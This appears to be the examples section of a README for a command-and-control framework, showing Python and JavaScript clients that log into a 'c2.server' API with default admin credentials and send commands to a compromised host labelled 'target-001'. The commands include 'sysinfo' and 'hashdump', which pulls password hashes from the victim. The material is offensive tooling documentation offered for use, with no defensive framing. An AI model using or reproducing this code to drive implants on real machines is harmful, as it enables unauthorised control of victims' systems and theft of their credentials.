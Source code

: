 ## Examples

### Python Client
```python
import requests

# Login
response = requests.post('https://c2.server/api/auth/login', 
    json={'username': 'admin', 'password': 'password'})
token = response.json()['token']

# Execute command
headers = {'Authorization': f'Bearer {token}'}
response = requests.post('https://c2.server/api/execute',
    headers=headers,
    json={
        'connection_id': 'target-001',
        'command': 'sysinfo'
    })
print(response.json())
```

### JavaScript Client
```javascript
// Connect to WebSocket
const socket = io('https://c2.server');

// Execute command
fetch('/api/execute', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/json',
        'X-CSRFToken': getCsrfToken()
    },
    body: JSON.stringify({
        connection_id: 'target-001',
        command: 'hashdump'
    })
})
.then(response => response.json())
.then(data => console.log(data));
```

---

For complete command reference, see [ELITE_ALL_COMMANDS_COMPLETE.md](./ELITE_ALL_COMMANDS_COMPLETE.md)